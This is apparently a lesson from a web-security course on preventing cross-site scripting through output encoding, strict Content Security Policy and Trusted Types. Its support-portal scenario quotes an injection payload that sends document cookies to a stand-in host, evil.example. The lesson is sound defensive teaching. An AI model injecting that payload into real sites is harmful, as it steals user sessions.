

# Lesson 04: Output Encoding, Content Security Policy and Trusted Types

**Syllabus items covered:** [CASP 5] "Output Encoding", "HTML Encoding", "HTML Attribute Encoding", "Javascript Encoding", "CSS Encoding", "Content Security Policy", "Trusted Types", "Preventing DOM XSS With Trusted Types", and the defensive side of "Cross-Site Scripting (XSS)".

**Time:** 75 minutes. **Lab:** [output-encoding-csp-trusted-types](labs/output-encoding-csp-trusted-types/README.md). Security headers in general, CSP at scale and its common misconfigurations are in [chapter 14](../14-api-defenses-data-security-and-headers/README.md); this lesson is about XSS prevention.

## 1. Output encoding

**Encode data when you output it, for the exact context it lands in.** The same string needs different encoding in HTML text, an attribute, JavaScript, CSS or a URL, because each parser treats different characters as special. Encoding on input is wrong: you do not know the output context yet, and you corrupt the stored data.



Prefer **auto-escaping templates** (React JSX, Angular, Jinja2 with autoescape, Razor, Thymeleaf) and library encoders (OWASP Java Encoder, `html.escape`, framework helpers). Danger zones are the escape hatches: `dangerouslySetInnerHTML`, `[innerHTML]` bypass, `|safe`, `Html.Raw`, `v-html`.

### 1.1 HTML encoding

For data between tags (`<p>DATA</p>`): `&` → `&amp;`, `<` → `&lt;`, `>` → `&gt;`, `"` → `&quot;`, `'` → `&#x27;`. Now `` is shown as text.

### 1.2 HTML attribute encoding

For data inside attribute values (`<input value="DATA">`): always **quote** attributes, and encode all non-alphanumeric characters as `&#xHH;`. Unquoted attributes can be broken by a space. Some attributes are dangerous whatever you encode: event handlers (`onclick`), `href`/`src` (a `javascript:` URL is valid text), `style`. Validate URLs (allow `https:` only) for `href`/`src`.

### 1.3 JavaScript encoding

For data inside a quoted JavaScript string (`var name = 'DATA';`): encode non-alphanumerics as `\xHH` or `\uHHHH`, which also neutralises `</script>`. Better: avoid putting data in scripts at all. Put JSON in a data attribute or `<script type="application/json">` (HTML-encoded) and read it with `JSON.parse`. **Nested contexts** are a trap: in `onclick="go('DATA')"` the browser HTML-decodes the attribute first, so HTML-encoded quotes come back as real quotes; the lab proves it.

### 1.4 CSS encoding

For data inside a CSS property value: encode non-alphanumerics as `\HH ` (backslash, hex, space). Better: allowlist values (a colour must match `#[0-9a-f]{6}`). Never let users supply whole style blocks; `url()` and old `expression()` can load or run code.

**Scenario.** A support portal HTML-encoded ticket subjects everywhere, but the agent dashboard put the subject into an inline `onclick="openTicket('SUBJECT')"`. A customer sent a ticket titled `x');fetch('//evil.example?c='+document.cookie);//`. The HTML encoding was undone by the browser before the JavaScript ran, and agents' sessions leaked. Moving the subject to a `data-` attribute and using an event listener fixed it.

## 2. Content Security Policy

CSP is a response header that tells the browser which sources of script, style, frames, etc. are allowed. It is **defence in depth**: if an XSS slips through, a strict CSP stops the injected script from running.

**Strict CSP (recommended pattern, verify current guidance at web.dev and OWASP):**

```text
Content-Security-Policy:
  script-src 'nonce-{random per response}' 'strict-dynamic';
  object-src 'none';
  base-uri 'none';
  frame-ancestors 'none';
  require-trusted-types-for 'script';
  report-to csp-endpoint
```

- **Nonces** (random per response) or **hashes** mark your own scripts; injected ones have no nonce.
- `'strict-dynamic'` lets nonced scripts load their dependencies without long host allowlists.
- `object-src 'none'` and `base-uri 'none'` close plugin and `<base>` hijack routes.
- Roll out with **`Content-Security-Policy-Report-Only`** and the Reporting API first.

**Weak patterns:** `'unsafe-inline'` without a nonce, `'unsafe-eval'`, `*`, `https:` or `data:` in `script-src`, long CDN allowlists (they often host JSONP endpoints or old AngularJS that bypass CSP). The lab's evaluator flags these.

For APIs that return only JSON, a minimal `Content-Security-Policy: default-src 'none'; frame-ancestors 'none'` plus `X-Content-Type-Options: nosniff` is common.

## 3. Trusted Types

DOM XSS happens entirely in the browser: JavaScript reads attacker-controlled data (`location.hash`, `postMessage`, API JSON) and writes it into a **sink** (`innerHTML`, `outerHTML`, `document.write`, `eval`, `setTimeout(string)`, `script.src`). Server-side encoding cannot see it.

**Trusted Types** (`Content-Security-Policy: require-trusted-types-for 'script'`) makes those sinks **reject plain strings**. Code must pass a `TrustedHTML`/`TrustedScript`/`TrustedScriptURL` object created by a named **policy**:

```javascript
const policy = trustedTypes.createPolicy("sanitize", {
  createHTML: (s) => DOMPurify.sanitize(s),   // the only place HTML is trusted
});
element.innerHTML = policy.createHTML(userText);   // ok
element.innerHTML = userText;                       // TypeError: requires TrustedHTML
```

Benefits: a DOM XSS review shrinks from "every sink in the code base" to "the few policies". `trusted-types sanitize dompurify` in the CSP restricts which policy names may be created. A **default** policy can catch legacy assignments during migration.

**Preventing DOM XSS with Trusted Types** in practice: enable in report-only mode, fix reported sinks (prefer `textContent`, which needs no policy), add one sanitizing policy, then enforce. Support: long available in Chromium-based browsers; recent Safari and Firefox releases have added support (check caniuse before relying on it, and keep encoding as the primary defence).

## Check yourself

1. Why is encoding on input instead of output a mistake?
2. Which CSP keywords make a policy weak, and why does a nonce make `'unsafe-inline'` irrelevant in modern browsers?
3. What error does an enforced Trusted Types page throw on `el.innerHTML = s`?
